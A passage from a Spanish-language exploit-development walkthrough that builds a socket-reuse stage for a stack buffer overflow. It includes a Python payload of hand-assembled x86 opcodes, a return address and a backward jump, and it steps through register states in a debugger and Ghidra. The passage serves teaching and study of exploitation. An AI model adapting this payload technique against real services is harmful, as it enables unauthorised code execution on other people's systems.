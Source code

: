 Ya que había restado 70 *bytes* en el *ESP*, hice que *EBX* tenga el valor de *ESP* para volver a sumar 70 *bytes* a *EBX* y caer en un punto intermedio donde están mis A, ahí pondré NOPS para que siga el flujo del programa vaya sin problemas hasta *EBX* que estará apuntando a la función de *socket* `recv`, la cual contendrá suficiente espacio para almacenar el *shellcode*.

![image](https://camo.githubusercontent.com/6651c05abecefe0cbf059369452cf60482f710663713130d10c1c003d717f44d/68747470733a2f2f696d6775722e636f6d2f4b3975394e50552e706e67)
![image](https://camo.githubusercontent.com/e7dc879292922fb5ebb1d8a4c76ef811f6a5cbaffeb044edc132c73faeefa7cf/68747470733a2f2f696d6775722e636f6d2f374d324835366b2e706e67)
 
*EBX* ya tenía la misma dirección que *ESP*.
 
![image](https://user-images.githubusercontent.com/69093629/158069787-a0f86e9f-4b23-4322-9531-2a4c6e9400ff.png)
 
Hice un `Step Info` y se aplicó la suma de los 70 *bytes*, por lo que *EBX* ya estaba en un punto intermedio de las A.

![image](https://user-images.githubusercontent.com/69093629/158069800-9f65129c-07de-4226-abe7-9ca123a0553e.png)
  
El *exploit* estaba quedando así:

```python
recv = b""
recv += b"\x54" 				# -> push esp
recv += b"\x58" 				# -> pop eax
recv += b"\x66\x05\x30\x02" 			# -> add ax, 0x230
recv += b"\x66\x2d\xe8\x01" 			# -> sub ax, 0x1E8
recv += b"\x8b\x30" 				# -> mov esi, dword [eax]
recv += b"\x83\xec\x70" 			# -> sub esp, 0x70
recv += b"\x31\xdb" 				# -> xor ebx, ebx
recv += b"\x53" 				# -> push ebx 
recv += b"\x66\x81\xc3\x10\x04" 		# -> add bx, 0x410
recv += b"\x53" 				# -> push ebx
recv += b"\x54"					# -> push esp	
recv += b"\x5b"					# -> pop ebx
recv += b"\x66\x83\xc3\x70"			# -> add bx, 0x70
recv += b"\x53"					# -> push ebx

payload = recv + b"\xAA"*(66 - len(recv)) + p32(0x719023A8) + b"\xeb\xb8" # -> jmp $-70
```
Ahora simplemente hice un `push ebx` que contenía el *bufer* y un `push esi` que contenía el descriptor del *socket*.

![image](https://camo.githubusercontent.com/d636659a35f69f53c2bb322cb29c2ecd9341b90ca4a66daa2e8eac6fe6231e3b/68747470733a2f2f696d6775722e636f6d2f506e5a416d4c5a2e706e67)
 
Ejecuto el *exploit* con los nuevos valores y este fue el resultado:

![image](https://user-images.githubusercontent.com/69093629/158071328-48556507-c6ff-409a-8d34-4f81b018276b.png)
 
Perfecto!, ya tenía todos los valores correspondientes adecuados al *socket*, lo que único que faltaba era hacer la llamada, por lo cual necesitaba la dirección del *socket*, este lo extraje de `ghidra`.
 
![image](https://camo.githubusercontent.com/f1e10cc2ed963a914acd3f9c149da295fdfcf14b55c7dbc33b50194e3616903a/68747470733a2f2f696d6775722e636f6d2f74457a547946692e706e67)
  